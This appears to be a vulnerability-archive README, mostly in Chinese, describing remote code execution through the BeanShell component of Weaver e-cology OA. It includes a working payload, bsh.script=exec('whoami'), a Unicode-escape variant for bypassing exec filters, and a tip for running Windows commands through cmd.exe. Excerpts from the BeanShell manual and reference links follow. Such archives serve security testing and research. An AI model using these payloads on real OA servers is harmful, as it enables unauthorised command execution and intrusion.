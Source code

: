 # 泛微e-cology OA Beanshell组件远程代码执行

![](./set.jpg)
## Windows
![](./whoami.jpg)
## Linux
![](./linux.jpg)
![](./linux2.png)

## Ps
```
检测目标系统os.name（因为目标系统是windows的话，执行set等命令，需要手动敲cmd.exe /c set）
使用Unicode绕过exec过滤，部分站点
```
## Payload
```
bsh.script=exec('whoami');

>>>>unicode bypass

bsh.script=\u0065\u0078\u0065\u0063("whoami");

```

## Useful BeanShell Commands

```
In the previous example we used a convenient "built-in" BeanShell command called print(), to display values. 

print() does pretty much the same thing as System.out.println() except that it insures that the output always goes to the command line. print() also displays some types of objects (such as arrays) more verbosely than Java would. 

Another related command is show(), which toggles on and off automatic display of the result of every line you type.
```
#### Here are a few other examples of BeanShell commands:
```
source(), run() - Read a bsh script into this interpreter, or run it in a new interpreter
frame() - Display a GUI component in a Frame or JFrame.
load(), save() - Load or save serializable objects to a file.
cd(), cat(), dir(), pwd(), etc. - Unix-like shell commands
exec() - Run a native application
javap() - Print the methods and fields of an object, similar to the output of the Java javap command.
setAccessibility() - Turn on unrestricted access to private and protected components.
```


## 参考链接：

http://www.beanshell.org/manual/bshmanual.html#Executable_scripts_under_Unix

https://mp.weixin.qq.com/s/Hr6fSOaPcTp2YaD-fPMxyg



